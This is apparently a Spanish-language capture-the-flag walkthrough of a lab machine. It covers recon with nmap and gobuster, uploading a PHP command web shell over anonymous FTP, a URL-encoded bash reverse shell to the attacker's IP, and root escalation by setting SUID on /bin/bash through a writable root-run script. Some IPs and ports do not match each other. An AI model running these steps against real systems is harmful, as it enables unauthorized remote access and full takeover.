 # Summary
- IP: 10.10.113.192
- Ports: 21,22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	- 21 -> vsftpd 3.0.3
	- 22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
	- 80 -> Apache httpd 2.4.18 ((Ubuntu))

# Recon
- Reconocimiento básico de puertos:

```
$sudo nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.116.216 -oG allPorts
``` 

- Reconocimiento profundo de puertos encontrados:

``` 
$sudo nmap -p22,80,139,445,8009,8080 -sCV 10.10.116.216 -oN targeted
```

- Entramos a ftp como anonymous y vemos dos archivos y una carpeta; un archivo es una imagen sin relevancia y el otro es una nota la cual contiene un nombre potencial "maya".

- Analizamos la página, no contiene nada relevante; analizamos los directorios:

```
$sudo gobuster dir -u 10.10.147.217 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

- Analizamos el directorio "files" y nos damos cuenta que es el mismo lugar en el que se alojan los archivos subidos por ftp como anonymous, aprovechamos esto para subir un archivo PHP que nos brinde un parámetro "cmd" que nos permita ejecutar un RCE:

nano rev_shell

```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

```
ftp 10.10.147.217
anonymous
put /home/dante/Tryhackme/startup/content/shell.php /ftp/shell.php
```


- Ahora vamos al directorio "files" de la web, abrimos el archivo envenenado y ejecutamos el comando para entablar una reverse shell:

http://10.10.147.217/files/ftp/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/10.18.101.123/443%200%3E%261%22

- Hacemos tratamiento de tty; hacemos búsqueda de archivos que nos puedan ayudar a escalar privilegios, encontramos en el directorio raiz la carpeta "incidents" la abrimos y vemos un archivo "pcapng" el cual se puede analizar con wireshark, lo descargamos a nuestra máquina atacante montando un servidor http con python.

- Analizamos el archivo con wireshark, y en uno de los paquetes encontramos la credencial "c4ntg3t3n0ughsp1c3" para la que podría servir con el usuario "lennie":

- Accedemos como "Lennie"  por ssh y encontramos la primera FLAG; en el directorio de lennie enocntramos una carpeta "scripts" la abrimos, y dentro hay una script en bash, la analizamos:

```
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```
- Si hacemos ls -l podemos ver que este script se ejecuta como root, sin embargo no tenemos permisos para modificarlo, en el script ejecuta también "print.sh", este sí que podemos modificarlo, así que le metemos un comando que otorgue permisos SUID a la bash:

```
nano /etc/print.sh
chmod u+s /bin/bash

/bin/bash -p 

#root
```

- Ya somos ROOT y podemos ver la FLAG.